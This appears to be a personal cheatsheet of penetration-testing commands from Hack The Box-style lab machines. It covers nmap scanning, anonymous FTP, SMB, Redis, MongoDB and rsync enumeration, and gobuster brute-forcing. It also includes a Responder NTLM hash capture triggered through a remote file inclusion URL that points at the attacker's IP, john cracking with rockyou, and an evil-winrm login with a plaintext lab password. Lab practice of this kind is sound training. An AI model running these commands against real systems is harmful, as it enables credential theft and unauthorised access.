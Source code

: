 # cheatsheet

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* Use tool: john
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## WEB
* wordlist
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster
gobuster dir -u 10.129.70.58 -w wordlist.txt
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```
